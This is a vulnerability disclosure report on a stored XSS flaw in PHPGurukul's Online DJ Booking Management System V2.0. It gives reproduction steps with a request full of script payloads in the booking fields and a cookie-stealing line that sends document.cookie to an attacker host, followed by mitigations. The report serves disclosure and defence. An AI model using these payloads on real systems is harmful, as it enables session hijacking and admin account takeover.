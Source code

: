 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/view-booking-detail.php`, `/invoice-generating.php`                       |
| **Affected File(s)**    | `odms/admin/view-booking-detail.php`, `odms/admin/invoice-generating.php`   |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user—often an administrator—views the stored data, the script is executed in their browser.

In this case, **anyone can submit an event request** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that booking request, the script executes in their browser, potentially leading to:

- Cookie theft
- Session hijacking
- Unwanted actions performed on behalf of the admin

## Steps to Reproduce

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS).  
> **For privacy reasons, I'm hiding the domain name.**

1. **Book the service using the following URL:**

    ```
    https://domain.com/book-services.php?bookid=1
    ```

    ![Service Page](./images/book-service-page.png)

    Fill in test data and capture the request using **Burp Suite**.

2. **Edit the request parameters with XSS payloads.**

    Affected parameter names:

    - `name`
    - `email`
    - `edate` (event date)
    - `est` (event start time)
    - `eetime` (event end time)
    - `vaddress` (venue address)
    - `eventtype` (event type)
    - `addinfo` (additional info)

    Example request with payloads:

    ```javascript
    name=<script>alert("from-name")</script>&
    email=<script>alert("from-email")</script>%40gmail.com&
    mobnum=123&
    edate=<script>alert("from-date")</script>&
    est=<script>alert("from-start-time")</script>&
    eetime=<script>alert("from-end-time")</script>&
    vaddress=<script>alert("from-address")</script>&
    eventtype=<script>alert("from-type")</script>&
    addinfo=<script>alert("from-add-info")</script>&
    submit=Book
    ```

    ![XSS Payload Request](./images/burp-repeater.png)

3. **Log into the admin account and navigate to the new bookings page:**

    Sidebar → **BOOKING** → **New Booking**

    ```
    https://domain.com/admin/new-booking.php
    ```

    ![New Booking Page](./images/new-booking-page.png)

4. **Click the "View" button on the submitted booking.**

    The XSS payloads will trigger with JavaScript `alert()` pop-ups for each infected field.

    ![XSS Trigger - Name](./images/from-name.png)  
    ![XSS Trigger - Email](./images/from-email.png)  
    ![XSS Trigger - Date](./images/from-date.png)  
    ![XSS Trigger - Start Time](./images/from-start-time.png)  
    *(Additional alerts appear for End Time, Address, Event Type, and Additional Info.)*

5. **Click the "Update" button on the booking.**

    ![Update Booking](./images/update-app.png)

6. **Navigate to the approval bookings page:**

    Sidebar → **BOOKING** → **Approval Booking**

    ![Approval Bookings](./images/approval-page.png)

7. **Click the "Invoice" button.**

    The same XSS payloads will trigger again, one per infected field.

    ![Invoice XSS Trigger](./images/invoice-page-xss.png)


## Impact of Stored XSS

- Any user (no authentication required) can submit a booking with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and the data is stored in the system.
- When the **admin views the booking** in the dashboard, the malicious script is executed in the admin's browser.
- This can lead to **admin account takeover** by stealing the session cookie using a simple payload like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- Once the attacker obtains the admin's cookie, they can impersonate the admin and gain full access to the system.

---

## ✅ Recommended Mitigations

- **Input Sanitization**  
  Strip or escape HTML/JavaScript tags from all user inputs before storing them.

- **Output Encoding**  
  Always encode data before rendering it in the browser (e.g., using `htmlspecialchars()` or the equivalent in your framework).

- **Use Templating Engines That Auto-Escape Output**  
  Leverage modern PHP templating engines that escape output by default:
  - **Twig**: `{{ name }}` auto-escapes output.
  - **Blade (Laravel)**: `{{ $name }}` also auto-escapes output.

- **Content Security Policy (CSP)**  
  Implement a strong CSP header to restrict execution of unauthorized scripts.

- **HTTPOnly Cookies**  
  Ensure session cookies are marked as `HttpOnly` to prevent access via JavaScript.

- **Input Validation**  
  Validate input type, format, and length to reject suspicious or unnecessary data.

---

## 📚 References

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

